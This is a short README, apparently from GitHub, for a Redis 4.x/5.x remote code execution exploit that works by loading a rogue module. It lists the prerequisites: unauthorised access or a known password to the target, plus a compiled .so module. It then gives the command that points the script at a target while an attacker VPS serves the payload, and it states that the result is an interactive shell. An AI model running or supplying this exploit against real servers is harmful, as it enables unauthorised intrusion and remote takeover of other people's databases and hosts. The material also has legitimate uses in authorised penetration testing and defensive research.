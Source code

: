 ## Redis 4.x/Redis 5.x RCE EXP
tech reference: [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

test passed Redis 5.0.9.

## Prepare:
* Redis 4.x/5.x unauthorized access or you know its auth password.
* your PC and target Redis can comm with each other.
* compile `.so` module, reference: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

## Usage:

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port> [--rpasswd <redis auth>]
```

Finally, you will get a interactive shell.